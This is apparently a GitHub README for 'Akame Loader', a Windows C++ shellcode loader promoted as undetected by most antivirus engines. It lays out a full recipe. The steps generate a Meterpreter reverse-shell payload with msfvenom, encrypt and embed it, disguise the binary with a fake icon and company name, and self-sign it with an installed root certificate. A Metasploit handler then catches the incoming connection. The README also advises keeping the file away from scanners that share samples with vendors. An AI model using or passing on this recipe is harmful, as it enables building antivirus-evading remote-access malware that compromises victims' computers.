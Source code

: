 <h1 align="center">Akame Loader</h1>
<p align="center">
  <img width="250" height="250" src="https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/akame.png" width="250" height="250">
</p>
<h4 align="center">An open source, UD (3/71) shellcode loader written in C++17</h4>

## Details
Icon: https://icon-icons.com/icon/Halloween-eye/109170
| Name | Details |
| ------ | ------ |
| Name | Akame Loader |
| Author | WtfIsThis |
| Language | C++17 |
| Platform | Windows |
| Version | 1.0 |
| License | MIT |
| Libraries | user32, advapi32, crypt32 |
| Encryption | AES256 |
| Build | Release - x64 |

! If you change the encryption method and want to keep your executable UD for a longer period of time, don't use VirusTotal / AntiScan.me / any other site that distributes to security vendors.

## Build instructions
**1. Generate a shellcode with metasploit<br>**
- msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shellcode.bin

**2. Encrypt your shellcode with encrypt.exe<br>**
- mv shellcode.bin \Akame Loader\x64\Release\Resources\ <br>
- cd \Akame Loader\x64\Release\Resources\ <br>
- (optional) encrypt --help<br>
- encrypt.exe -l cpp -m shellcode.bin -e random -o cli<br>

**3. Copy the output and paste it under the "payload" comment<br>**
- Paste your IV key, your KEY and your BUFF into the existent vectors<br>

**4. Change the resources<br>**
- Add your icon, your company name, etc.

**5. Build the project<br>**
- Platform Toolset: Visual Studio 2022 (v143)<br>
- Language standard: ISO C++17<br>
- Optimization: /O2 <br>
- Configuration: Release<br>
- Platform: x64<br>
- Runtime Library: Multi-Threaded (/MT)<br>
- SubSystem: Windows<br>
- Dependencies: user32.lib;advapi32.lib;crypt32.lib;<br>
- Generate debug info: No
  
**6. Add a certificate to your executable<br>**
  ! Change "Akame.exe" to whatever your executable name is<br>
- move Akame.exe Resources && cd Resources<br>
- makecert.exe -r -pe -n "CN=Akame CA" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv AkameCA.pvk AkameCA.cer<br>
- certutil -user -addstore Root AkameCA.cer<br>
- makecert.exe -pe -n "CN=Akame Cert" -a sha256 -cy end -sky signature -ic AkameCA.cer -iv AkameCA.pvk -sv AkameCert.pvk AkameCert.cer<br>
- pvk2pfx.exe -pvk AkameCert.pvk -spc AkameCert.cer -pfx AkameCert.pfx<br>
- signtool.exe sign /v /f AkameCert.pfx /t http://timestamp.digicert.com/?alg=sha1 Akame.exe
  
**7. Listen for incomming connections<br>**
- msfconsole -q
- use exploit/multi/handler
- set payload windows/x64/meterpreter/reverse_tcp
- (optional) show options
- set LHOST <IP>
- set LPORT <PORT>
- exploit

## Video POC
Platform: Windows 10 x64 <br>
Antivirus: Windows Defender <br>
Date: 24/10/2022 <br>
Link: https://streamable.com/mwknij
  
## VirusTotal Scan (3/71 security vendors and no sandboxes on 24/10/2022)
I uploaded the loader to Virus Total because I don't want this to be used for malicious purposes!<br>
The shellcode used was generated with metasploit (payload: windows/x64/meterpreter/reverse_tcp) and encrypted by \resources\encrypt.exe.<br>
The loader was build with VS22 and signed with a sha1 certificate

![Virus Total](https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/virustotal.png)

Link: https://www.virustotal.com/gui/file/68e6a25457093584a043ed3f721be9bc9b6456edd792cb4e30054e85bdc4119f?nocache=1

## License
MIT License

Copyright (c) 2022 WtfIsThis

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

## Disclaimer
This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
